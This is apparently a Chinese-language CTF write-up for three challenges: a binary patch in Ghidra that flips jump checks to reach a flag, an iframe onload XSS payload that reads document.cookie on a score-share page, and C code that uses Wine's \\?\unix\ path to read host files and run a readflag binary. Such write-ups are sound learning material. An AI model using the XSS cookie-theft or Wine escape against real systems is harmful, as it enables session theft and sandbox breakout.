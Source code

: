 ## Flag 自动机

首先查找字符串：

```bash
strings flag_machine.exe | grep flag
```

可以找到`flag_machine.txt`

在 Ghidra 里面搜索就会直接跳转到 WinProc，此时把判断按钮（if == 2 和== 3 那两个）的 if 反转（`00401966`附近的两个 JZ 和 JNZ 调换，然后把那个判断“超级管理员”的 if 也反转，就可以点击退出按钮获得 Flag 了（在`flag_machine.txt`文件里

（好像有人操作会得到乱码 flag，但我没试过

## 微积分计算小练习

简单的先测试下：http://202.38.93.111:10056/share?result=MDpzYWZ2

（感谢 purofle 提醒我这是 web 题不是 math

塞给 CyberChef 直接 Magic 得知 result 是 base64

但是这样没什么用

看页面源码，一眼`innerHTML`，好似，XSS

（我以前也没试过 XSS 注入，写了个`<script>`结果不执行

```html
<iframe
  src="http://web/share?result=MDp4dGV4"
  onload="document.getElementById('a').innerText=document.cookie"
></iframe
><span id="a"></span>
```

上网学了下，知道要用其他元素的事件

这里我选择了 iframe，src 直接给一个成绩链接改成 web

## 杯窗鹅影

在 wine 中，`start.exe \unix`可以启动 unix 的程序，查找[wine 的源码](https://gitlab.winehq.org/wine/wine/-/blob/master/programs/start/start.c#L545)，可以发现`\\?\unix\`会等效于`/`所以

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main()
{
   FILE *fp = NULL;
   char buff[255];
fp = fopen("\\\\?\\unix\\flag1", "r");
   fgets(buff, 255, (FILE*)fp);
   printf("3: %s\n", buff );
   fclose(fp);
   system("\\\\?\\unix\\readflag");
   char *argv[]={"\\\\?\\unix\\readflag", NULL};
    char *envp[]={0,NULL};
    execve("\\\\?\\unix\\readflag",argv,envp);

}
```
